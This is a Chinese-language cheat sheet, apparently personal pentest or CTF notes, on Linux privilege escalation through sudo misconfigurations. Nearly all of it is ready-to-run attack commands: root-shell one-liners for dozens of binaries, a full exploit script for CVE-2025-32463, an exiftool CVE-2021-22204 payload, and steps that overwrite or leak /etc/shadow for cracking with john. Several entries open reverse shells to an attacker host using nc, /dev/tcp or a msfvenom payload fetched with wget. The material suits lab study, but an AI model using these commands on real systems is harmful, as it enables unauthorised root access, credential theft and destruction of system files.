









如果提权失败的话，自己去深入看一下提权的原理，万一是笔记写错了呢？！！

通篇文章的内容都有一个前置条件：sudo -l 有利用的提权信息，若此文章无成功提权，要再多试试别的方法

# 基础知识
```shell
sudo -l									列出当前用户可以直接通过 sudo 执行的命令。（可以查看/etc/sudoers 文件中的配置）
whoami									查看用户名
id											用户组
ip a										ip地址
su											提权到root
uname -a								显示操作系统的信息
sudo -V | grep version	查看sudo版本
```


### 提权总结：
        * 某些组件/命令/任务/anything 拥有 sudo 的直接运行权限
        * 或者这些命令可以引用自定义的第三方库/脚本
        * 语言有免密 root 的运行权限的话，都可以构造进行提权
        * 可以调用命令行的程序/工具的参数


### 小记
1. **hash破解：**john shadow_hash --wordlist=/usr/share/wordlists/rockyou.txt
2. **无需密码 root 执行： sudo -l**：(root) **NOPASSWD**: /usr/bin/***
3. **提升命令行交互性**：
    1. python3 -c "import pty;pty.spawn('/bin/bash')"
    2. 新建反弹 shell


# 提权命令
## sudo version ≤ 1.8.28


```bash
sudo -V | grep version		#查看版本

sudo -u#-1 /bin/bash			#提权
```


## sudo chwoot
CVE-2025-32463：影响版本1.9.14 <= sudo <= 1.9.17

在靶机中运行此sh脚本即可获取root权限(运行的时候把代码旁边的注释去掉)

```shell
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)             #创建一个临时目录
cd ${STAGE?} || exit 1                                    #进入该目录 如果失败则退出脚本

cat > woot1337.c<<EOF                                     #生成一个c文件
#include <stdlib.h>   
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);                                          #将进程的真实用户id和有效用户id设置为0，进程变为root用户
  setregid(0,0);
  chdir("/");                                             #改变当前工作目录为根目录
  execl("/bin/bash", "/bin/bash", NULL);                  #启动一个新的bash，程序将成为root
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
#编译恶意共享库
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}

```


## sudo apt
sudo -l		列出枚举项包含 apt 项

```bash
sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash
```


sudo apt-get 同样适用


## sudo apache2
sudo -l 有 apache2

```bash
sudo apache2 -f /etc/shadow
```

拿到 hash 加密的 root 密码

```bash
sudo john hash_passwd --wordlist=/usr/share/wordlists/rockyou.txt
```


## sudo ash
sudo -l 

```bash
sudo ash
```


## sudo awk
传递脚本的方式

```bash
sudo -l
sudo awk 'BEGIN {system("/bin/bash")}' 
```


## sudo base64
base32 base48 同理

```bash
sudo -l
cat /etc/shadow  //无权限
a=/etc
sudo base64 "$a" | base64 -d		#有看shadow的权限，原因是base64有直接的sudo运行权限

拿到shadow之后，使用john破解
```


## sudo bash		
```bash
sudo -l
sudo bash 		#直接实现提权
sudo csh/dash/sh/tclsh/zsh 			#这几种都是常见的bash环境可以实现提权
```


## sudo cp
此操作有后果：会导致靶机中的 shadow 文件的内容都**被覆盖掉且不可恢复**

原理是将自己创建的 **123456** **覆盖**掉之前的 **shadow** 文件

```bash
sudo -l		#当前用户不需要用户密码就可以直接使用cp命令
(root)NOPASSWD:/usr/bin/cp
```


将修改的 root 信息存好



在靶机中：

```bash
a=/etc/shadow
TF=$(mktemp)
echo '修改好的root信息' > $TF
echo $TF
/tmp/tmp.RmdhLEDVdO
cat /tmp/tmp.RmdhLeDVdO
//输出修改好的root信息

sudo /usr/bin/cp $TF $a			#会覆盖之前的shadow
su
123456
成功
```


## sudo cpulimit


```bash
sudo -l
sudo cpulimit -l 100 -f /bin/bash
-l:限制cpu使用率
-f：指定一个程序受到-l参数的限制
```


## sudo curl
```bash
sudo -l
```


将获取到的 root 信息存储到：shadow_entry 文件

```bash
sudo php -S 0:80			#在kali本地80端口开启一个php服务
```

```bash
sudo curl http://kali_ip/shadow_entry -o /etc/shadow		#靶机sudo权限curl后覆盖原始的shadow
```


## sudo date
```bash
sudo -l
sudo date -f /etc/shadow
泄露了整个shadow文件的信息
jonh破解hash密码
```


## sudo dd
```bash
sudo -l
```


```bash
echo '生成的root信息' | sudo dd of=/etc/shadow 
```


## sudo dstat
利用点：dstat 可以指定插件名来**执行外部的插件**

```bash
find / -name dstat -type d 2>/dev/null
    /usr/share/doc/dstat
    /usr/share/dstat
ls /usr/share/dstat
vim dstat_BinBash.py
  import os;os.execv("/bin/bash",["bash"])
cp dstat_BinBash.py /usr/share/dstat/dstat_BinBash.py
sudo dstat --BinBash
成功
```


## sudo ed
```bash
sudo -l
sudo /usr/bin/ed		#进入ed编辑器
!/bin/bash					#提权
```


## sudo env
```bash
sudo -l 
sudo env /bin/bash
成功
```


## sudo exiftool
CVE-2021-22204  version:7.44-12.23

```bash
sudo -l
exiftool -ver					#查看是否为漏洞版本
vi payload
(metadata "\c${system('bin/bash')};") 		#写入payload
bzz payload payload.bzz									#使用bzz工具对payload进行压缩
djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz 			#图片处理
sudo exiftool exploit.djvu

```


## sudo expect
```bash
sudo -l
sudo expect -c "spawn /bin/bash;interact"
成功
```


## sudo fail2ban
反复登录 ssh，超过 3 次（诸如此类限制）就会把访问 ip 办掉

```bash
sudo -l
find / -name "fail2ban*" -type d 2>/dev/null
  /usr/share/doc/fail2ban
  /usr/lib/python3/dist-packages/fail2ban-0.11.2.egg-info
  /usr/lib/python3/dist-packages/fail2ban
  /run/fail2ban
  /var/lib/fail2ban
  /etc/fail2ban
  /etc/fail2ban/fail2ban.d

find /etc -writable -type d 2>/dev/null
  /etc/fail2ban/action.d

cd /etc/fail2ban/
ls
vim jail.conf
```



```bash
cd /etc/fail2ban/action.d			#脚本目录
```





```bash
actionban = rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc Kali_IP 9595 > /tmp/f
```

```bash
sudo /etc/init.d/fail2ban restart			//重启fail2ban服务
```

```bash
sudo nc -lvnp 9595				#启动监听
sudo shh Baji_Username@Baji_IP		#ssh连接靶机
多次输入错误密码，超过maxrety后执行actionban脚本提权。
```


## sudo find
```bash
sudo -l
sudo find . -exec /bin/bash \; -quit
```


## sudo flock
```bash
sudo -l
sudo flock -u / /bin/bash
```


## sudo ftp
```bash
sudo -l
sudo ftp
  !/bin/bash
成功
```


## sudo gcc
```bash
sudo -l
sudo gcc -wrapper /bin/bash,-s .
成功
```


## sudo gdb
```bash
sudo -l
sudo gdb -nx -ex '!bash' -ex quit
成功
```


## sudo git
```bash
sudo -l
sudo git branch --help
在这个界面不要洞，摁esc然后冒号，输入!/bin/bash
成功
```




## sudo gzip/gunzip
gzip/gunzip 用法相同

```bash
sudo -l
sudo gzip -f /etc/shadow -t 	#-f:强制执行
拿到shadow内容，使用john破解
su			#登录root
```


## sudo hping3
hping3：用于分析和测试网络环境，生成各种网络包

```bash
sudo -l
sudo hping3
  /bin/bash
```


## sudo iftop
```bash
sudo -l
sudo iftop
  !/bin/bash
```






## sudo java
```bash
sudo -l
#遇到大的语言程序，想到的就是使用语言本身来进行提权
```

```bash
sudo msfvenom -p java/shell_reverse_tcp LHOST=Kali_IP LPORT=4444 -f jar -o shell.jar		#生成监听文件
```



```bash
sudo php -S 0:80			#建立简单的web服务
sudo nc -lvnp 4444		#启动监听
```

```bash
cd /tmp
wget http://Kali_IP/shell.jar				#下载
chmod +x shell.jar
sudo java -jar shell.jar
成功
```


## sudo jjs
javascript shell

```shell
sudo -l	
```

```shell
sudo nc -lvnp 9595
```

```shell
echo "Java.type('java.lang.Runtime').getRuntime().exec(['/bin/bash','-c','exec 5<>/dev/tcp/Kali_IP/9595;cat <&5 | while read line; do \$line 2>&5 >&5; done']).waitFor()" | sudo jjs
成功
```


## sudo journalctl
```shell
sudo -l
sudo journalctl
  !/bin/bash
成功
```


## sudo knife
```shell
sudo -l
sudo knife exec -E 'exec "/bin/bash"'
成功
```


## sudo less
**很多的文本利用机制都是使用的 less 机制，提权机制也是相同的**

```shell
sudo -l
mktemp ./XXXXX			#生成一个临时文件
sudo less (生成的文件)
  !/bin/bash
成功
```


## sudo man
```shell
sudo -l
sudo man ls
  !/bin/bash
成功
```


## sudo more
```shell
sudo -l
#找一个文件使得more一页放不下
sudo more File_Name
  !/bin/bash
成功
```


## sudo mount
mount 用于挂在系统的（磁盘、目录等）

```shell
sudo -l
sudo mount -o bind /bin/bash /usr/bin/mount
sudo mount  			#执行bash命令
成功
```


## sudo mysql
```shell
sudo -l
sudo mysql -e '\! /bin/bash'
成功
```


## sudo nano
文本编辑器

```shell
sudo -l
sudo nano
  Ctrl+R
  Ctrl+X
  reset;bash 1>&0 2>&0
  摁回车
成功
```


## sudo neofetch
```shell
sudo -l 
a=$(mktemp)
echo 'exec /bin/bash' > $a
sudo neofetch --config $a
```


## sudo nice
```shell
sudo -l
sudo nice /bin/bash 		#nice可以指定一个程序以10权限运行
成功
```


## sudo nmap
**nmap 的不同版本有不同的提权方式**

nmap 可以指定执行脚本文件

```shell
sudo -l
a=$(mktemp)
echo 'os.execute("/bin/bash")' > $a
sudo nmap --script=$a
成功
```


## sudo node
node.js

```shell
sudo -l
sudo node -e "require('child_process').spawn('/bin/bash',{stdio:[0,1,2]})"
成功
```


## sudo nohup
```shell
sudo -l
sudo nohup /bin/bash -c "bash <$(tty) >$(tty) 2>$(tty)"
成功
```


## sudo openvpn
  

```shell
sudo -l
#指定参数读取
sudo openvpn --config /etc/shadow
会输出shadow的第一行：root的shadow的记录
john破解
```


## sudo  passwd
```shell
sudo -l
sudo passwd root
成功
```


## sudo perl
perl 也是一种语言

```shell
sudo -l
sudo perl -e 'exec "/bin/bash";'
成功
```


## sudo php
php 命令行可以直接执行系统命令

```shell
sudo -l
sudo php -r "system('/bin/bash');"
```

php 还有很多其他的构造形式，使用过程中自行探索


## sudo pico
文本编辑器

```shell
sudo -l
sudo pico
  Ctrl+R
  Ctrl+X
  reset;bash 1>&0 2>&0
  摁回车
成功
```


## sudo pkexec
```shell
sudo -l
sudo pkexec /bin/bash
成功
```


## sudo python3
```shell
sudo -l
sudo python3 -c "import os;os.system('/bin/bash')"
```

提权命令有很多，有很多方法


## sudo rvim
```shell
sudo -l
sudo rvim -c ':python import os; os.execl("/bin/bash","bash","-c","reset;exec bash")'
成功
```


## sudo scp
secure copu：利用 ssh 进行远程的安全的文件复制的工具

```shell
sudo -l
a=$(mktemp)
echo 'bash 0<&2 1<&2' > $a
chmod +x "$a"
sudo scp -S $a x y:
成功
```


## sudo screen
终端复用工具

```shell
sudo -l
sudo screen
摁回车
成功
```


## sudo script
```shell
sudo -l
sudo script			#此命令即可进入root权限，但是会有记录
sudo script -q /dev/null		#可以进入root但是不会记录
```


## sudo sed
强大的文本处理工具

```shell
sudo -l
sudo sed -n '1e exec bash 1>&0' /etc/hosts
成功
```


## sudo service
```shell
sudo -l
sudo service ../../bin/bash			#service在搜索可执行文件的时候是在path中进行搜索，因此需要../回退目录
成功
```


## sudo socat
```shell
sudo -l
sudo socat stdin exec:/bin/bash

```


## sudo ssh
```shell
sudo -l
sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```


## sudo ssh-keygen
```shell
sudo -l
vim a.c		#编辑一个c文件			
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
static void inject()__attribute__((constructor));

void inject(){
    setuid(0);
    system("/bin/bash -P");
}


```

```bash
gcc -shared -fPIC -o a.so a.c			#生成a.so文件，需查看是否有执行权限
sudo ssh-keygen -D ./a.so					#提权命令，如果没成功的话自己去调研一下
成功
```


## sudo strace
追踪和记录另一个进程的系统调用和接受到的信号，对于调试和理解程序的运行方式有用

```bash
sudo -l
sudo strace -o /dev/null /bin/bash
成功
```


## sudo systemctl
```bash
sudo -l
sudo systemctl
  !/bin/bash
成功
```


sudo tcpdump

监听/捕获网络流量的工具

```bash
sudo -l
#将网络流量包捕获并传递给一个脚本进行处理
vim a.sh
```

```bash
mknod a_pipe p && /bin/nc Kali_IP 9595 0<a_pipe | /bin/bash 1>a_pipe
```

```bash
ls -liah a.sh		#查看是否有编辑权限
ip a						#查看靶机的网卡
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /a.sh -Z root		#提权命令
```

```bash
sudo nc -lvnp 9595					#靶机运行提权命令后即可反连进入shell
成功
```


## sudo tee
此次利用使用的是 passwd 文件，实际场景中研究一下是否也可以使用 shadow 文件呢？

```bash
sudo -l
```

```bash
openssl passwd -1 -salt UserTest '123456'		#生成有盐值的hash值
cat /etc/passwd | grep root									#获取linux中的passwd的组成形式
修改passwd
```



```bash
echo 'UserTest:$1$UserTest$zRq5YT8zuNyGcNb/88Uov.:0:0:root:/root:/usr/bin/bash' | sudo  tee -a /etc/passwd
su UserTest
  123456
成功
```


## sudo timedatectl
类似 less 利用

```bash
sudo -l
sudo timedatectl list-timezones
  !/bin/bash
成功
```


## sudo tmux
端口复用工具

```bash
sudo -l
sudo tmux
成功
```


## sudo vi
```bash
sudo -l
sudo vi 
  :!/bin/bash
成功
```

```bash
sudo vi -c ':!/bin/bash' /dev/null			#与上边方法同理
```


## sudo wall
广播消息的命令。

有 sudo 权限就可以读取任何文本文件

```bash
sudo -l
sudo wall --no /etc/shadow
john破解shadow
```


## sudo watch
周期性（每 2s）执行命令并显示结果的程序，-x 参数可以在命令行输出执行的参数

```bash
sudo -l
sudo watch -x bash -c 'reset; exec bash 1>&0 2>&0'
成功
```


## sudo wget
```bash
sudo -l
a=$(mktemp)
chmod +x $a
echo -e '#!/bin/bash\n/bin/bash 1>&0' > $a
sudo wget --use-askpass=$a 0						#构造use-askpass参数
成功
```

-o 参数可以将下载的内容重写到某一个位置（也可以利用）


## sudo zip
-T	#检测压缩文件的完整性

-TT 	#指定一个程序去检测压缩包的完整性，可以指定加入提权逻辑的程序

```bash
sudo -l
sudo zip foo /etc/hostname -T -TT 'bash #'
成功
```


## sudo xxd
可以将一个二进制文件转换成 十六进制，也可逆

```bash
sudo -l
sudo xxd /etc/shadow | xxd -r 		#明文shadow文件
john破解
```


OVER！

